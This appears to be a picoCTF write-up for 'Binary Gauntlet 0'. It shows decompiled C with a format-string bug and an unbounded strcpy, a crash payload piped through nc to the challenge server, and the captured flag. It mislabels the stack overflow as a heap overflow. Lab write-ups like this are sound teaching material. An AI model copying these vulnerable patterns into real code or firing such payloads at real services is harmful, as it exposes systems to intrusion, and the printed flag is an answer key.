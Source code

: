 # Binary Gauntlet 0

the source code after some reverse engineering and code flow analysis

```c
int main(void)

{
 char local_88 [108];
 __gid_t local_1c;
 FILE *flag_file;
 char *our_input;

 our_input = (char *)malloc(1000);
 flag_file = fopen("flag.txt","r");
 if (flag_file == (FILE *)0x0) {
   puts(
      "Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are runningthis on the shell server."
      );
                /* WARNING: Subroutine does not return */
   exit(0);
 }
 fgets(flag,0x40,flag_file);
 signal(0xb,sigsegv_handler);
 local_1c = getegid();
 setresgid(local_1c,local_1c,local_1c);
 fgets(our_input,1000,stdin);
 our_input[999] = '\0';
 printf(our_input);
 fflush(stdout);
 fgets(our_input,1000,stdin);
 our_input[999] = '\0';
 strcpy(local_88,our_input);
 return 0;
}
```

Notice the `signal()` function. It calls the sigsegv_handler on each `SIGSEGV` error(buffer overflow? heap overflow?)

## sigsegv_handler

so it basically prints the flag

```c
void sigsegv_handler(void)

{
 fprintf(stderr,"%s\n",flag);
 fflush(stderr);
                /* WARNING: Subroutine does not return */
 exit(1);
}
```

we need so somehow trigger a segmetation fault

# Flag

Simply heap overflow it by pushing in a lot of characters

## Payload

```
python3 -c "print('A'*3000)" | nc mercury.picoctf.net 48515
```

```
b8f7e81f00cc0618503136fbacaf5d4c
```
